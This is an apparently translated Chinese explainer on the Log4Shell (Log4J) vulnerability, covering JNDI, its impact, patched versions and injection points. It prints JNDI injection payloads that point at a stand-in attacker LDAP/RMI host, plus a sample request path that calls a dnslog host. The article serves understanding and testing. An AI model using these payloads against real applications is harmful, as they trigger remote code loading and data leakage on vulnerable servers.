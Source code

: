 **JNDI** ，或 Java 命名目录接口，是一个 API，允许 Java 应用程序根据对象的名称对其进行搜索。它支持几个目录服务，比如 T2 LDAP、RMI、DNS 和 CORBA T3。

我见过的大多数有效负载都使用 LDAP、DNS 和 RMI 协议来执行 DNS 请求。

对于 RCE pocs，攻击者需要设置一个 LDAP 服务器，以允许易受攻击的应用程序连接到它。因此，目标应用程序必须允许到攻击者控制的服务器的 LDAP 传出连接来加载恶意对象。

**DNS 请求**不足以确认应用程序是否易受远程代码执行的攻击。但是，它仍然有影响，因为这些请求可能会泄露敏感数据，从而危及目标的安全。

## Log4Shell 漏洞的影响

此漏洞的主要影响是:

*   通过 DNS 的数据渗透
*   利用恶意 Java 对象和恶意 LDAP 服务器远程执行代码

## 修补版本

Log4J **版本 2.17** 打了补丁。**撰写本文时，2.15.0 和 2.16.0** 补丁被绕过。

## 攻击者如何利用 Log4Shell💻

攻击者设置一个流氓 LDAP 服务器，创建一个漏洞利用有效负载类，并将其存储为 LDAP 对象，如 **"Log4JPayload.class"** ，以便以后引用。

然后，攻击者将精心制作的 JNDI 注入插入到任何可能被记录的请求中，比如请求路径、HTTP 头、文件名、文档/图像 EXIF 等等**(参见下面的注入点)**。

### 有效载荷示例

```
${jndi:ldap://attackermachine:portnumber/Log4JPayload.class} 

${jndi:rmi://attackermachine:portnumber/Log4JPayload.class} 
```

当恶意请求被记录时，Log4J 库将解析注入的输入，并联系流氓 LDAP 服务器来加载恶意类。

然后，应用程序执行引用的类，攻击者就可以在易受攻击的应用程序上远程执行代码。

## 注入点

一个主注入点在**请求路径**中，如下例:
`GET /${jndi:ldap://c6xppah2n.dnslog.cn/d} HTTP/1.1`

另一个在 **HTTP 头**中。攻击者可以在任何 HTTP 报头中注入有效负载。当进行应用程序测试时，它们都是有效的注入点。[穆萨·萨纳](https://musana.net/2021/12/13/log4shell-Quick-Guide/)编制了一份更详尽的名单。

![1_pyg0Y8AQNnklLdN-oqq8jg](img/b61a742c39e023cccf6a1ca87df90b0e.png)
